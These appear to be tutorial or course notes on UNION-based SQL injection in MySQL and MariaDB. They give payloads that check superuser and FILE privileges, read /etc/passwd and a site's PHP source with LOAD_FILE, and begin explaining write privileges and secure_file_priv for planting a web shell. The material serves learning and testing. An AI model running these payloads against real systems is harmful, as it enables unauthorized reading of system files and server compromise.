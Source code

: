 In the payload 
`cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -`

or if too many users
`cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`

If the query return `‘Y’` then it means Yes. 

3- See all the privilege we have 

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

To show our privilege use the user we found in step 1

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

If the `FILE` privilege is written, then we ca read files and potentially write files. It means reading local system files. 

4- Read file with the function LOAD_FILE(). 

It takes one argument which is the file name. 

`SELECT LOAD_FILE('/etc/passwd');`

To use this in the injection:
`cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`

Other example to show the source code of a website page:

The default Apache webroot is `/var/www/html`.

Read the source code of the file at `/var/www/html/search.php`.

`cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -`

**To see the source code use CTRL+U.** 

### **3- Writing Files:**

**Write File Privileges**

Writing file in the back end server is much more restricted in modern DBMS because we can use this to write a web shell on the remote server. Most of them disable this by defaults. 

1- Check if we have the privileges to write files.

Have the File privilege

MySLQ global `secure_file_priv` variable not enable.

Write access to the location we want to write on the back end server. 

The `secure_file_priv` is used to determine where we can read/write file from. When empty we can do it everywhere. NULL means we can not from any directory. 

MariaDB has this variable empty by default so only the FILE priv will be sufficient. 
